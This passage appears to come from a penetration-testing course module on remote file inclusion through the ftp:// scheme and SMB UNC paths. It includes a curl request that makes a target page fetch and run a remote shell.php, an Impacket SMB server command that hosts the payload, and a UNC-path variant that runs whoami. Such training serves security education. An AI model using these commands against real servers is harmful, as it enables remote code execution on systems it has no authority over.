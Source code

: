 This may also be useful in case http ports are blocked by a firewall or the `http://` string gets blocked by a WAF. To include our script, we can repeat what we did earlier, but use the `ftp://` scheme in the URL, as follows:
![Shipping containers and cranes at a port with user data information displayed.](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, this worked very similarly to our http attack, and the command was executed. By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

```shell
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## SMB

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:

```shell
impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\share\shell.php`), and specify the command with ( `&cmd=whoami`) as we did earlier:
![Shipping containers and cranes at a port with NT AUTHORITY\IUSR information displayed.](https://academy.hackthebox.com/storage/modules/23/windows_rfi.png)

As we can see, this attack works in including our remote script, and we do not need any non-default settings to be enabled. However, we must note that this technique is `more likely to work if we were on the same network`, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.


# LFI and File Uploads

File upload functionalities are ubiquitous in most modern web applications, as users usually need to configure their profile and usage of the web application by uploading their data. For attackers, the ability to store files on the back-end server may extend the exploitation of many vulnerabilities, like a file inclusion vulnerability.
